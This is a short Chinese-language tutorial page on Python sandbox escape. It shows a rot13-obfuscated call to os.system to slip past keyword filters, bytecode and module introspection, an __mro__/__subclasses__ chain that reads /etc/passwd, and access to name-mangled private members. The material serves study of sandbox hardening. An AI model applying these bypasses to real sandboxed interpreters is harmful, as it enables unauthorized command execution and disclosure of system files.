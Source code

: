 书接[上文](https://github.com/D4rkD0g/2019_Recoder/blob/master/09.September/2019-09-15.md#0x02-sstipython沙箱逃逸)  

## 0x01 Python 沙箱逃逸

#### 1. 过滤关键字

没有过滤包，但是过滤了诸如system之类的关键字  

```python
import os
import codecs
getattr(os,codecs.encode("flfgrz",'rot13'))('id')

#uid=0(root) gid=0(root) groups=0(root)
```

#### 2. 获得本域或者模块的引用和全部内容

```python
import sys
dir(sys.modules[__name__])
#['LambdaX', '__builtins__', '__doc__', '__name__', '__package__', 'codecs', 'os', 'sys']
```

可以看到有个定义了的LambdaX函数，而且引入了codes、os、sys包  

#### 3. 字节码

```python
LambdaX.func_code
#<code object LambdaX at 0x7f7444c8d330, file "<stdin>", line 1>

dir(LambdaX.func_code)
#['__class__', '__cmp__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'co_argcount', 'co_cellvars', 'co_code', 'co_consts', 'co_filename', 'co_firstlineno', 'co_flags', 'co_freevars', 'co_lnotab', 'co_name', 'co_names', 'co_nlocals', 'co_stacksize', 'co_varnames']

LambdaX.func_code.co_argcount # 参数个数
#1
LambdaX.func_code.co_consts # 变量
#(None, 'Hello')

LambdaX.func_code.co_code
'd\x01\x00}\x01\x00|\x01\x00|\x00\x00\x17GHd\x00\x00S' #字节码

import dis
dis.dis(LambdaX.func_code.co_code)
          0 LOAD_CONST          1 (1)
          3 STORE_FAST          1 (1)
          6 LOAD_FAST           1 (1)
          9 LOAD_FAST           0 (0)
         12 BINARY_ADD
         13 PRINT_ITEM
         14 PRINT_NEWLINE
         15 LOAD_CONST          0 (0)
         18 RETURN_VALUE
```

#### 4. mro

mro方法就是这个类型所继承的父类的列表

```python
"".__class__.__mro__
#(<type 'str'>, <type 'basestring'>, <type 'object'>)
LambdaX.__class__.__mro__
#(<type 'function'>, <type 'object'>)

"".__class__.__mro__[-1].__subclasses__()[40]('/etc/passwd').read()
#'root:x:0:0:root:/root:/bin/bash

```

#### 5. 私有成员

```python
class Lamb():
    __a  = 1
    __b = "hello"
    c = 1024
    def __lambdax(self):
        print "hello"
    def lambdax(self):
        print "world"

Lamb
#<class __main__.Lamb at 0x7f7444c8bce8>
dir(sys.modules[__name__])
#['Lamb', 'LambdaX', '__builtins__', '__doc__', '__name__', '__package__', 'codecs', 'dis', 'i', 'os', 'sys']
dir(Lamb)
#['_Lamb__a', '_Lamb__b', '_Lamb__lambdax', '__doc__', '__module__', 'c', 'lambdax']
lamb = Lamb()
dir(lamb)
#['_Lamb__a', '_Lamb__b', '_Lamb__lambdax', '__doc__', '__module__', 'c', 'lambdax']
lamb._Lamb__a
#1
```

私有的属性和函数,使用 下划线+类名+函数名访问

Ref:  

[Python沙箱逃逸的n种姿势](https://xz.aliyun.com/t/52)